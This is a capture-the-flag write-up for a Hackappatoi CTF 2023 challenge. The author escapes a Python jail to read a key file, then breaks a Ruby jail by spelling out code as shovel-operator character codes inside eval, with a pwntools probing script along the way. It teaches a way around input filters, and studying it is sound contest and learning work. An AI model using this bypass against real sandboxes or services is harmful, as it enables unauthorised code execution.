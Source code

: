 ```yaml
---
layout: writeup
category: Hackappatoi-CTF-2023
chall_description: N/A
points: 310
solves: N/A
tags: misc py-jail ruby-jail
date: 12-10-2023
comments: false
---
```


Italy is maybe the most touristic country around the world, amazing food, spectacular monuments, and faboulus environments  

But in the last period Italy don't wanna let anyone escape...  

`nc 92.246.89.201 8888`  

---

Connect to the service. Here's what it shows:  

```



                              ΓûêΓûê              ΓûêΓûê
                            ΓûêΓûê              ΓûêΓûê
                          ΓûêΓûê        ΓûêΓûê    ΓûêΓûê
                          ΓûêΓûê      ΓûêΓûê      ΓûêΓûê
                            ΓûêΓûê    ΓûêΓûê        ΓûêΓûê
            ΓûæΓûæΓûæΓûæ              ΓûÆΓûÆ  ΓûêΓûê          ΓûÆΓûÆ  ΓûæΓûæ
                              ΓûêΓûê    ΓûêΓûê        ΓûêΓûê
                            ΓûêΓûê        ΓûêΓûê    ΓûêΓûê
                                      ΓûêΓûê  ΓûêΓûê
                                    ΓûêΓûê
                                                  ΓûæΓûæ
                  ΓûêΓûêΓûêΓûêΓûêΓûê        ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê
                ΓûêΓûê      ΓûêΓûê    ΓûêΓûê            ΓûêΓûê
              ΓûêΓûê    ΓûêΓûêΓûêΓûê  ΓûêΓûêΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê              ΓûêΓûêΓûêΓûê
            ΓûêΓûê    ΓûêΓûê    ΓûêΓûêΓûêΓûê    ΓûêΓûê        ΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûê    ΓûêΓûê
            ΓûêΓûê  ΓûêΓûê  ΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê    ΓûêΓûêΓûêΓûê    ΓûêΓûê    ΓûêΓûê  ΓûêΓûê  ΓûêΓûê        ΓûêΓûê
          ΓûêΓûê  ΓûôΓûô  ΓûêΓûê  ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûôΓûô  ΓûôΓûô          ΓûêΓûê
          ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê
            ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê    ΓûêΓûê
            ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê  ΓûêΓûê
              ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê    ΓûêΓûê
                ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûê        ΓûêΓûê
                  ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê  ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê
                      ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûôΓûô





≡ƒì┤≡ƒì┤≡ƒì┤
```

The challenge clearly implies this is some sort of code jail. These are typically pyjails -- let's test it out.  

Sending `print` returns `<built-in function print>`, which pretty much confirms this is a pyjail. I immediately decided to try a naive method to get the flag.  

```py
print(open('flag.txt', 'r').read())
```

Output:  

```
read key

None
```

Hey... that worked? No keywords or anything were blacklisted? Well, let's check out `key` anyways.  

```py
print(open('key', 'r').read())
```

```
guera

Yep, not the flag..., use 'guera' as the password for the real challenge at port 8889

None
```

Ah. So there's a part 2 to this challenge. Let's check it out!  

Here's what we're presented with after sending the key, `guera`:  

```
Oh Oh you escaped from a pasta jail..., can you escape from a bank and steal a precious ruby?...


Welcome to:
HACKAPPATOI's Jewelry (We got funds from zio Berlusca)
Here you will find a magnific 1337 Jewel

        _______
      .'_/_|_\_'.
      \`\  |  /`/
       `\\ | //'
         `\|/`
           `

But you need to obtain it and it won't be so easy...
You have a command to get it....
Good Luck!
Enter command:
```

Another pyjail? Let's try sending `print`:  

`Oopsie.. your input is bad... We blocked it.`  

Not sure if it's Python yet, but definitely some blacklisting going on. Let's try some random letters. Eventually, with the input `a`, I got this:  

```
(eval):1:in `<main>': undefined local variable or method `a' for main:Object (NameError)
        from jewelry.rb:40:in `eval'
        from jewelry.rb:40:in `<main>'
```

`.rb`...? Isn't that a Ruby file? So this must be a Ruby jail!  

With further testing, I quickly realized a lot of characters were blacklisted. Hence, I wrote a quick script to test which ones were blacklisted:  

```py
# print(open('flag.txt', 'r').read())
# print(open('key', 'r').read())
# pass is 'guera'

from pwn import *
import string

posschars = string.ascii_letters + string.digits + string.punctuation
validchars = []
for i in posschars:
    conn = remote('92.246.89.201', 8889)
    conn.recv()
    conn.sendline(b'guera')
    conn.recv()
    conn.recv()
    conn.sendline(i.encode())
    res = conn.recv().decode()
    conn.close()
    if 'Oops' not in res:
        validchars.append(i)
        print(res)

print(validchars)
```

Testing revealed that these characters...  

```py
['a', 'e', 'l', 'v', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z','0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', ':', ';', '<', '=', '>', '?', '@','[', '\\', ']', '^', '`', '{', '|', '}', '~']
```

...were the only allowed characters. That's odd... only `aelv` are allowed of the lowercase letters, and, importantly, these spell out `eval`. Maybe that'll be important to the challenge?  

At this point, since I had never even used Ruby before, much less broken a Ruby jail, I started doing a lot of research and playing around with the service. I tried octal numbers, global variables, predefined constants, etc etc. Overall, I ended up being stuck for over an hour on this section of the problem. Eventually, my search query of `ruby jail without letters ctf` returned results. The reason I wanted to find some sort of hint to breaking a ruby jail without letters was because a lot of lowercase letters were restricted, so if I could find a way to break it without letters, I could easily break the jail. (in hindsight, I should have searched this up much earlier!)  

Scrolling down a bit, I found [this writeup](https://ctftime.org/writeup/16824) on CTFtime. Take a look at this section:  

>[This article](https://threeifbywhiskey.github.io/2014/03/05/non-alphanumeric-ruby-for-fun-and-not-much-else/) describes how you can write ruby code without letters, and since we are able to use the quote sign ', we can create strings with the shovel operator trick they describe.  

I immediately took a look through the article and found this section:  


>Logically enough, it can “shovel” strings into each other. This doesn’t quite help us, of course, as we’re not allowed to create explicit character strings. We can, however, shovel Unicode codepoints into strings to achieve the same effect:  
>
>```rb
>'' << 97 << 98 << 99
># "abc"
>```

So we don't need letters at all to construct our inputs! Perfect!  

Now all that's left to do is construct our payload. With the help of [this](https://onlinetools.com/ascii/convert-ascii-to-decimal) decimal to ASCII converter and [this](http://www.unit-conversion.info/texttools/replace-text/) online replace string helper, I was able to construct our payload pretty easily. At first, trying to open `flag.txt` didn't work, but then, trying `flag` did!  

Here is the ASCII:  

```rb
puts File.open("flag").read
```

And here is the payload to send to the service:  

```rb
eval(''<<112<<117<<116<<115<<32<<70<<105<<108<<101<<46<<111<<112<<101<<110<<40<<34<<102<<108<<97<<103<<34<<41<<46<<114<<101<<97<<100)
```  

And sending it produces the flag!  

    HCTF{1s_d1z_r34l1ty_0r_F1c710n?}  

Thoughts: As a complete newbie to both pyjails and ruby, I was pretty proud of this solve! Although it did take me quite a long time to solve, I thought I managed to figure out everything by the end quite nicely :)  